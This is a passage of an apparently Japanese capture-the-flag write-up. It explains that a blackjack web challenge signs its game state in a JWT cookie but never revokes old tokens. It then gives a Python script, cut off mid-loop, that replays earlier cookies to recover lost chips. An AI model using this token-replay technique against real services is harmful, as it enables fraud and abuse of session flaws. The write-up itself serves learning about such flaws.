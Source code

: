 ```python
    state['cards'] = cards[2:]
    response.set_cookie('matsushima', jwt.encode(state, key, algorithm='HS256'), httponly=True, samesite='strict')
    return response

# ...
```

`jwt.encode(state, key, algorithm='HS256')` からわかるように、JWT を使って改ざんできないようにした上でクライアント側にデータを持たせて管理しているようです。署名に使われている `key` は別ファイルに保存されていて推測できず、署名アルゴリズムも `HS256` に固定されているため改ざんはできそうにありません。

ですが、ゲームが終了したあとにそれまで使われたトークンを失効させるような処理はどこにもなく、たとえゲームに負けてしまったとしても負ける前のトークンを Cookie にセットすれば賭けたチップを取り戻すことができます。勝てば発行されたトークンを保持し、負ければゲームの開始時まで巻き戻すということを繰り返すスクリプトを書きましょう。

```python
import base64
import json
import requests
URL = 'http://(省略)/'

def parse(cookie):
  s = cookie.split('.')[1]
  s += '=' * (4 - len(s) % 4)
  s = base64.urlsafe_b64decode(s)
  return json.loads(s)

def initialize():
  req = requests.post(URL + 'initialize')
  return req.cookies.get('matsushima')

def hit(cookie):
  req = requests.post(URL + 'hit', cookies={
    'matsushima': cookie
  })
  return req.cookies.get('matsushima')

def stand(cookie):
  req = requests.post(URL + 'stand', cookies={
    'matsushima': cookie
  })
  return req.cookies.get('matsushima')

def get_flag(cookie):
  req = requests.get(URL + 'flag', cookies={
    'matsushima': cookie
  })
  return req.text

cookie1 = initialize()
d1 = parse(cookie1)
while True:
  if d1['chip'] >= 999999:
    break

  for i in range(3):
    for _ in range(i):
      cookie2 = hit(cookie1)
      d2 = parse(cookie2)

    try:
      cookie2 = stand(cookie2)
      d2 = parse(cookie2)
    except:
      continue
```